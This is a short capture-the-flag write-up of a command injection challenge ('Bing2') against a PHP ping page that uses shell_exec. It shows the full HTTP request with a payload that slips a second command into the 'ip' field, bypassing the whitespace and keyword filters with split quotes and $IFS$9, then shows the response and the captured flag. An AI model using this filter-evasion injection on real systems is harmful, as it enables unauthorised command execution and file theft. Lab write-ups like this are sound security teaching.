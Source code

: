 # Bing2

This challenge seems to be a command injection challenge. The given code shows that the PHP code (file `bing.php`) uses the function `shell_exec` that is vulnerable to command injection. 

But the PHP code also has a lot of filters, so you can not inject anything. E.g. whitespace and the words `cat` and `flag` cannot be used directly. 

``` http
POST /bing.php HTTP/2
Host: 7f97d79d0808e3ff896df13b.deadsec.quest
Content-Type: application/x-www-form-urlencoded
Content-Length: 52

Submit=1&ip=127.0.0.1;ca''t$IFS$9/fl''ag.txt
```

Make sure there is not more than one line between `Content-Length` row and the POST parameters. 

``` http
HTTP/2 200 OK
Date: Sat, 27 Jul 2024 10:29:27 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 468
Vary: Accept-Encoding
Strict-Transport-Security: max-age=31536000; includeSubDomains

PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.181 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.109 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.096 ms
64 bytes from 127.0.0.1: icmp_seq=4 ttl=64 time=0.124 ms

--- 127.0.0.1 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3003ms
rtt min/avg/max/mdev = 0.096/0.127/0.181/0.032 ms
DEAD{5b814948-3153-4dd5-a3ac-bc1ec706d766}
```

The flag is

```
DEAD{5b814948-3153-4dd5-a3ac-bc1ec706d766}
```
